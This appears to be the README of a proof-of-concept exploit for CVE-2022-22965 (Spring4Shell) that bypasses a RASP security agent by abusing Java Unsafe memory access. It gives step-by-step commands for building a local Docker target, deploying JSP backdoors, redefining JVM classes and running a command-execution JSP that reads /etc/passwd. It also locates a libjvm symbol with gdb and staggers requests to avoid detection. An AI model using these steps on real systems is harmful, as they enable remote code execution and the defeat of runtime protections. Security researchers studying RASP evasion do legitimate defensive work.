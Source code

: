 This is a PoC where we abuse memory access through unsafe to bypass RASP. The idea is to read the base address of the libjvm and then either read also the symbol or predefine it for a known 
global variable and navigate the memory space until we reach the InstrumentationImpl object representing the agent itself and redefine classes and thus bypass RASP.

We do it step by step to avoid being detected (it looks like when the request parameter exceeds a certain treshold, we get blocked by the agent):
1. mvn clean package
2. docker build . -t cve-2022-22965-exploit
3. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit
4. curl http://localhost:8080/exploit/greeting
5. python3 -m pip install -r requirements.txt 
6. First deploy jvm base address backdoor: 
`   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="base", now you can get the base address using curl "http://localhost:8080/base.jsp" -> baseAddress`
7. Next deploy Redefine_Transformer_Manager jsp that will trigger redefining the transformerManager bytecode:
`    python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineTransformer”, you should the base address provided using the first step and issue  curl "http://localhost:8080/redefineTransformer.jsp?cmd={baseAddress e.g 139963791860840}” 
`
8. Ok now deploy RedefineProcessBuilder using 
`  python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineProcessBuilder" and trigger the redefinition: curl "http://localhost:8080/redefineProcessBuilder.jsp?cmd={baseAddress}”
`
9. Finally deploy your exploit that should have been blocked normally:
`   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="exploit" and trigger curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd" and it will pass :).
`

You may need to update the base address of JvmtiEnvBase::_head_environment, first ssh in the container, find / -name libjvm.so 2>/dev/null, and finally gdb /usr/local/openjdk-11/lib/server/libjvm.so + info variables and then you have it
`0x0000000000f59750  JvmtiEnvBase::_head_environment`
